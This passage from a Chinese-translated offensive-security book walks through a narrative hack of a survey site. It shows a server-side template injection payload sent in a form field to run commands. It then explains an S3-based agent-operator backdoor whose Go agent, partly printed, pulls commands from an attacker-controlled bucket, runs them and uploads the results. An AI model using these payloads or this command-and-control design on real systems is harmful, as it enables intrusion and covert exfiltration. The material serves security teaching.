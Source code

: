最后，我们开始通过*surveysandstats.com*网站获取*beaconTest.html*文件。如果一切按预期工作，我们应该会收到虚拟 HTML 内容的响应：

```
# Payload to the surveysandstats site form

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
282.communicate()[0]}}...

# Results in email
<html>hello from beaconTest.html</html>
```

这虽然是个长远的尝试，但确实值得！我们找到了一个可靠的方式，可以从这个完全封闭的调查应用程序与外界进行通信。通过使用 S3 文件，我们现在可以设计一个准互动协议，在这个隔离的机器上执行代码。

## 使用 S3 的质量后门

我们将开发一个代理-操作员系统，以便轻松执行代码并在`surveysandstatsmachine`上获取输出。我们服务器上的第一个程序，被称为*操作员*，将命令写入一个名为*hello_req.txt*的文件。运行在调查网站上的第二个程序——*代理*——每隔几秒钟会获取一次*hello_req.txt*文件，执行其内容，并将结果上传到 S3 上的*hello_resp.txt*文件。我们的操作员将定期检查这个文件并打印其内容。这个交换过程在图 6-7 中有所展示。

![f06007](img/f06007.png)

图 6-7：通过 S3 文件执行命令

操作员将拥有对`mxrads-archives-packets-linux`桶的完全访问权限，因为它将在我们自己信任的服务器上运行，并且具有所需的 AWS 凭证。代理只需要对*hello_resp.txt*文件具有`PutObject`权限，并对*hello_req.txt*文件具有`GetObject`权限。这样，即使分析师靠得太近，他们也只能看到最后发送的命令，而无法看到实际的响应。

我已经在 GitHub 上提供了操作员和代理的基本实现，地址是[`github.com/HackLikeAPornstar/GreschPolitico/tree/master/S3Backdoor/`](https://github.com/HackLikeAPornstar/GreschPolitico/tree/master/S3Backdoor/)，如果你想进行实验、调整或为其添加更多功能，可以随意操作。接下来的章节中我们将回顾一些代码的亮点。

### 创建代理

正如你可能从仓库中一瞥中注意到的，我决定用 Golang 编写代理，因为它运行速度快，生成的是静态链接的可执行文件，并且比 C/C++更高效、友好。`main`函数设置所需的变量，如文件名和 HTTP 连接器，然后进入主循环，如清单 6-3 所示。

```
func main() {
  reqURL := fmt.Sprintf("https://%s.s3.amazonaws.com/%s_req.txt", *bucket, *key)
  respURL := fmt.Sprintf("https://%s.s3.amazonaws.com/%s_resp.txt", *bucket, *key)

  client := &http.Client{}
```
